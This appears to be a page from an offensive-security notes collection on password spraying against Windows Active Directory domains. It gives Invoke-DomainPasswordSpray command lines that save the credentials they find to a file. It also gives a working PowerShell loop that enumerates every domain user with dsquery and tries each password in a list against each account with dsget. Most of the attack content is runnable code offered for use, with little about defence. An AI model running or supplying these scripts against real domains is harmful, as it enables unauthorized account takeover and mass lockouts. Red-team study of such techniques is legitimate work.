 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - password-cracking
  - password-spraying
  - offensive-tools
  - windows
---
```

# Scripts

## DomainPasswordSpray

TODO: Fill this info

Perform automated user enumeration then password spray process when executing from the current domain.

```
PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt
```

Specifying a password list then check for [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xA - Users/Manual/Living off the Land|account lockout observation window]].

```
PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt
```

https://pwn.no0.be/exploitation/password/account_lockout/

```
PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt
```

## SANS

```powershell
dsquery.exe user -limit 0 > users.txt
foreach ($FDN in Get-Content .\users.txt) {
    $results = dsget.exe user $FDN -samid
    $samid = $results[1].replace(" ", "")
    Write-Output $samid
    foreach ($password in Get-Content .\password.txt) {
        $password = $password.replace(" ", "")
        dsget.exe user $FDN -u $samid -p $password > $null
        if ($?) {
            Write-Output "Account: $samid\tPassword $password"
        }
    }
}
```

---
## References

### Github

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

### SANS

- [SANS: Usernames Matter More than Passwords](https://web.archive.org/web/20111008220143/https://it-audit.sans.org/blog/2011/09/21/usernames-matter-more-than-passwords)

### Pwnage Base

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)